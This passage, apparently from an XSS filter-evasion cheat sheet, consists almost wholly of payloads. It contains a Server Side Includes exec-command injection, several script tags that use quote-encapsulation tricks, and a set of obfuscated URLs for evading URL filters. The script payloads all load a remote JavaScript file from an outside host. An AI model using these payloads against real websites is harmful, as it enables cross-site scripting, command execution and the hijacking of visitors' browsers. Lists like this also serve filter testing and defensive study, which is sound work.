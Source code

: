 SSI (Server Side Includes) requires SSI to be installed on the server: 
```
<!--#exec cmd="/bin/echo '<SCRIPT
SRC'"--><!--#exec cmd="/bin/echo
'=http://k2decompiler.com/a.js></SCRIPT>'"-->
```
**XSS using HTML quote encapsulation:**
```
<SCRIPT a=">" SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT =">" SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://k2decompiler.com/a.js"></SCRIPT>
```
**URL string evasion (assuming "http://www.google.com/" is programmatically disallowed):**
```
<A HREF=http://66.102.7.147/>link</A>
<A HREF=http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D>link</A>
<A HREF=ht://www.google.com/>link</A>
<A HREF=http://google.com/>link</A>
<A HREF=http://www.google.com./>link</A>
<A HREF="javascript:document.location='http://www.google.com/'">link</A>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>

```
